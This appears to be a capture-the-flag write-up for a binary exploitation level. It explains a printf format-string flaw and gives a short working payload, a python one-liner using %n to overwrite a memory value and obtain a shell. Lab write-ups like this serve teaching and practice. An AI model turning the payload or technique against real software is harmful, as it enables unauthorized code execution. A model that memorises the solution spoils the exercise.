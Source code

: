 # LEVEL3

## EXPLANATIONS

### BINARY BEHAVIOR

- `v function` called from `main`
  - `v function` creates a stack buffer
  - call to `fgets` with a maximum length of 512 bytes read on stdin. bytes are written in buffer.
  - call to `printf` with buf as first arg(will be interpreted as a format string)
  - cmp between string in datasection and 40<sub>16</sub>
    - => If equal, we see the string in 0x8048600 that we succeed, then a syscall on /bin/sh is made.

### EXPLOIT STRATEGY

Our goal is to have 40<sub>16</sub> (64<sub>10</sub>) inside this memory area.

- We are going to exploit the printf format string vulnerability with the identifier %n that allow us to write a value in memory
- we write in the buffer :
  - string address in which to write 0x40
  - %60x
  - %4\$n

### RUN COMMAND

```
python -c "print('\x08\x04\x98\x8c'[::-1] + '%60x' + '%4\$n')" > /tmp/exploit_string
cat /tmp/exploit_string - | /home/user/level3/level3
```
